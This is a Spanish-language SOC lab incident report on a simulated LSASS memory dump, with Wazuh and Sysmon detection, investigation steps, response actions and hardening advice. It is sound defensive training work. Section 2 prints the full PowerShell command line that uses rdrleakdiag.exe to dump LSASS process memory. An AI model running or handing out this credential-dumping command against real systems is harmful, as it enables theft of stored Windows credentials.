

# Incidente 005: Powershell process spawned powershell instance

## Resumen
- **Fecha/hora:** 2026-09-14 19:21 (UTC+2)
- **Regla(s) que saltó:** Powershell process spawned powershell instance (92027)
- **Técnica MITRE ATT&CK:** T1059.001 - PowerShell, T1003.001 - OS Credential Dumping: LSASS Memory 
- **Endpoint afectado:** WIN10-LAB
- **Severidad:** Crítica
- **Veredicto:** Verdadero positivo

## 1. Ejecución del ataque
Se lanzó un ataque para simular un dump del proceso LSASS utilizando rdrleakdiag.exe
```powershell
Invoke-AtomicTest T1003.001 -TestNumber 13
```

## 2. Evidencia recolectada
- Captura del evento en Wazuh 

- Usuario/Proceso: vboxuser → powershell.exe
- Línea de comando completa: 
```
"powershell.exe" & {if (Test-Path -Path \""$env:SystemRoot\System32\rdrleakdiag.exe\"") {
      $binary_path = \""$env:SystemRoot\System32\rdrleakdiag.exe\""
  } elseif (Test-Path -Path \""$env:SystemRoot\SysWOW64\rdrleakdiag.exe\"") {
      $binary_path = \""$env:SystemRoot\SysWOW64\rdrleakdiag.exe\""
  } else {
      $binary_path = \""File not found\""
      exit 1
  }
$lsass_pid = get-process lsass |select -expand id
if (-not (Test-Path -Path\""$env:TEMP\t1003.001-13-rdrleakdiag\"")) {New-Item -ItemType Directory -Path $env:TEMP\t1003.001-13-rdrleakdiag -Force} 
write-host $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
& $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
Write-Host \""Minidump file, minidump_$lsass_pid.dmp can be found inside $env:TEMP\t1003.001-13-rdrleakdiag directory.\"
```

## 3. Investigación (paso a paso)
1. Se observó una evento sysmon 1, que resultó ser la ejecución de un comando powershell como administrador `data.win.eventdata.integrityLevel:High` y `data.win.system.eventID:1`
2. El comando resultó ser un script para dumpear el proceso LSASS.exe utilizando el binario rdrleakdiag.exe
3. La cadena de proceso fue powershell.exe -> powershell.exe
4. No hubo conexiones de red, sysmon event 3 ausente `data.win.system.eventID:3`, sin persistencia (sin 4720/7045) y sin 4624 que indique acceso remoto previo, por lo que se trata de un ataque contenido en un solo host.

## 4. Análisis
Mediante el uso de un binario como `rdrleakdiag.exe` el atacante ha procedido al dump del proceso LSASS.exe siendo un grave riesgo para la seguridad del sistema.

## 5. Acciones de respuesta
- Escalada a N2
- Aislado del host de red
- Solicitud de un análisis forense a la máquina

## 6. Recomendaciones de mejora (detection engineering)
Crearía una regla para detectar ejecuciones de powershell como administrador y catalogarlas como nivel 15 (máximo) puesto que en la mayoría de casos suponen un grave riesgo, además vuelve a entrar en juego el principio _Least privilege_ para reducir las superficies de ataque. Y activaría Credential Guard para virtualizar lsass e impedir dumps.

## 7. Lecciones aprendidas
Aprendí lo sencillo que es para un atacante con permisos de administrador realizar el dump de un proceso tan crítico como es LSASS.
